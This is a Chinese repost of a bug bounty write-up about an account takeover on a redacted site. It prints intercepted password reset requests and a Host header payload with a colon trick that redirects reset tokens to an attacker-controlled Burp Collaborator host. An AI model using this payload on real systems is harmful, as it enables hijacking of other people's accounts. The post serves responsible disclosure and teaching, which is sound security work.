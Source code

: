 #  0023. 账户接管漏洞的有趣故事【转载】   
Deepanshu  Rsec   2025-01-08 02:33  
  
#   
# 本文章仅用网络安全研究学习，请勿使用相关技术进行违法犯罪活动。  
  
**声明：本文搬运自国外互联网，如你是原作者，请联系我们！**  
  
**标签：账户接管**  
  
  
大家好，我是 Deepanshu，来自印度的安全研究院。  
  
祝大家一切顺利！今天，我想分享一个有趣的账户接管漏洞。  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/yKTOKd3ibs99wQ7SGTlsTicAKupOAJEJlAjmpjOVicr3ViceAfMBv8Q14VN4WUmFK3RuWjLjEdrDnn3FanYic5pp5CA/640?wx_fmt=jpeg&from=appmsg "")  
  
我收到了 hackerone.com 上的一个私人漏洞赏金计划的邀请，该计划的范围非常有限，而且是一个已有 4 年历史的计划，最初它看起来很安全，但我还是想尝试一下。  
  
我立即跳转到检查公司主网站的“忘记密码”功能。  
  
我在“忘记密码”字段中输入了我的电子邮件并拦截了请求。  
```
POST /auth/realms/Redacted/login-actions/reset-credentials?session_code=AbcdiQqKwDBsJcdIjZpAFW3&client_id=account&tab_id=Abcdii7y9i3qwXs HTTP/1.1
Host: login.redacted.com
Cookie: AUTH_SESSION_ID=fc59cdd34026abcd; KC_RESTART=AbcdiSldUIiiaXNFs
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 34
Origin: https://login.redcated.com
Referer: https://login.redacted.com/auth/realms/redacted/login-actions/reset-credentials?client_id=account&tab_id=Abcdi3qwXs
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers
Connection: close

username=testemail%40gmail.com
```  
  
正如你所看到的，在忘记密码请求，我脑海中首先想到的是测试 Host 标头注入。   
  
我在"Host"标头中附加了我的   
burp collaborator Url   
，如下所示(  
login.redacted.com为原Host值)：  
```
Host: login.redacted.com.BurpcollaboratorUrl.com
```  
  
我发送了请求，但什么也没发生，它不起作用。   
  
尝试添加"X-forwarded-host"等标头，但没有起作用。   
  
那么现在怎么办？让我们换个角度思考。  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/yKTOKd3ibs99wQ7SGTlsTicAKupOAJEJlAMZxLmicCp1fG4Ty6a5dpgpo1Dmx6ocXbztHpaNPSJ8RIEl8zGIfFnibA/640?wx_fmt=gif&from=appmsg "")  
  
经过多次尝试，我发现如果 Host 标头不是以"login.company.com"结尾，则在 Host 标头中添加任何内容都将不起作用，正如您之前看到的，我在末尾附加了我的   
burp collaborator Url  
，但是它不起作用。  
  
因此现在我尝试在 Host 开头时使用 burp collaborator Link：  
```
Host: burpcollaboratorUrl.com.login.redacted.com
```  
  
尝试这个，我得到了  
我的电子邮件的  
忘记密码链接，它是这样的：  
```
https://abc.burpcollaborator.login.redacted.com/auth/realms/login-actions/action-token?key=ey....
```  
  
你可以在这里可以看到，  
密码重置链接中包含  
 Burp Collaborator URL 与令牌，但如果你仔细观察，服务器删除了  
Burp Collaborator   
URL  
中的".com"，并在其后附加了公司域名。  
  
从技术上讲，这使其成为未知主机，受害者点击它时将看到"无法访问站点"错误。  
因此基本上，作为攻击者，我们无法通过 Burp 服务器的 HTTP pingback获取  
重置密码令牌  
。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/yKTOKd3ibs99wQ7SGTlsTicAKupOAJEJlAZHbdq3ZKicwSsQibUdUZfm0h2u5BAawCWxcD6xZlUB2yicTRykZtRHlVQ/640?wx_fmt=png&from=appmsg "")  
  
为了使请求正常工作并窃取令牌，我们需要如下密码重置链接：  
```
https://abc.burpcollaborator.com/auth/realms/login-actions/action-token?key=ey....
```  
  
最后，我尝试在Host中添加一个冒号（:)，如下所示：  
```
Host: burpcollaboratorurl.com:login.redacted.com
```  
  
最终请求现在看起来像这样：  
```
POST /auth/realms/redacted/login-actions/reset-credentials?session_code=Jabcde HTTP/1.1
Host: abcd.burpcollaborator.com:login.redacted.com
Cookie: AUTH_SESSION_ID=abcdfc59cdd34026.keycloak-482-keycloak-aaalzz4; Lpaa1sXBBnfZiwyvqXMPW2E5/ikwW6fuTZCg+XlvBMY9yeptovpOaJM2xmkK0=; _ga=GA1.2.1343917884.1641975182; 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:95.0) Gecko/20100101 Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 34
Origin: https://login.redacted.com
Referer: https://login.redacted.com/auth/realms/login-actions/reset-credentials
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers
Connection: close

username=testemail%40gmail.com
```  
  
发送请求，然后 BoooM！   
  
这次我绕过了它，服务器按照我们想要的方式发送了链接。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/yKTOKd3ibs99wQ7SGTlsTicAKupOAJEJlAq9OXY4rLkWkWg2cicmeQib7LClBs4ZyibPyyg2SF8kgGAKnD2nw8TtIqw/640?wx_fmt=png&from=appmsg "")  
  
现在您可以看到 Burp 协作者 Url 可以工作并且附加了一个令牌。  
  
 单击它请求Burp C  
ollaborator  
，并且我得到了 HTTP pingback。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/yKTOKd3ibs99wQ7SGTlsTicAKupOAJEJlAL81PURaUicOLx0qSTeFAdZ5jv58ickfTzLDL4kXQTsxM3417Xibep167g/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/yKTOKd3ibs99wQ7SGTlsTicAKupOAJEJlAuiayLmgicFalUwd3pLo8kDwyM9d3BHaPiccB0Q2vlkUicr7dibwOOibxvwyQ/640?wx_fmt=png&from=appmsg "")  
  
成功获取重置令牌并完全能够接管受害者账户。 现在您可能想知道为什么以及如何在主机标头中使用该冒号":"标记。好吧，这是公司内部团队的解释。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/yKTOKd3ibs99wQ7SGTlsTicAKupOAJEJlA53YxyVpbicOw2ZiazqErbxNDd94akeo2fLhceraiccTvuGpfkaTlXqPlw/640?wx_fmt=png&from=appmsg "")  
  
公司在一周内修复了该问题并授予了我丰厚的赏金。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/yKTOKd3ibs99wQ7SGTlsTicAKupOAJEJlALOESFoAbEiagOibdwbFAfmgzEianzP7uuz2gncFpC1oQviaPicTEiaYQkTNQ/640?wx_fmt=png&from=appmsg "")  
  
我希望你们都喜欢这篇文章，到那时再见，直到下一篇文章👋。  
  
Cheers!   
  
  
  
